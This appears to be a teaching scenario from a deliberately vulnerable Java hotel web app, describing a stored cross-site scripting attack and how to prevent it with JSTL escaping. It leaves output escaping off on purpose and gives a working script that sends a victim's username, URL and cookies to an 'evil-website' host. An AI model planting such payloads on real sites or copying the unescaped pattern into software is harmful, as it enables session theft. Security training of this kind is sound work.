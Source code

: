 Java: XSS
=========

Scenario summary
----------------

The attacker will create an hotel description that has an embedded script that
will send the cookies of a user browsing the web site to the attacker website.

Code change
-----------

In the views, the view `hotel/view.jsp` will not escape the value of the hotel
description.

The *evil-website* server must be deployed for this attack to work.

Scenario description
--------------------

To test whether the injection is possible, write in the description field the
following code:

	<script>alert('hello');</script>

To send the cookies of users to an evil website, set the following code as the
description of an hotel.

	<h3>That hotel!</h3>
	<div id="myHotel">Welcome!</div>
	<script type="text/javascript">
	var data;
	data += "[user: " + $("#login a.btn-primary").text() + "]";
	data += "[url: " + document.location.href + "]";
	data += "[cookie: " + document.cookie + "]";
	var imgsrc = "http://localhost:8081/evilhotel/sendData?data=" + escape(data);
	$("<img />").attr("src", imgsrc).appendTo($("#myHotel"));
	</script>

In the *evil-website* console, the user information should appear.
The sent request can be seen also using *FireBug* or *WebScarab*.

(Don't forget to change the host with what is needed...)

Preventing the attack
---------------------

*All* data that is printed as HTML must be escaped or at least "white list"
validated.

To escape HTML using JSP, use the available JSTL:

	<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c" %>

	<!-- valid string -->
	<c:out value="${myString}"/>
	<!-- possible injection -->
	${myString}

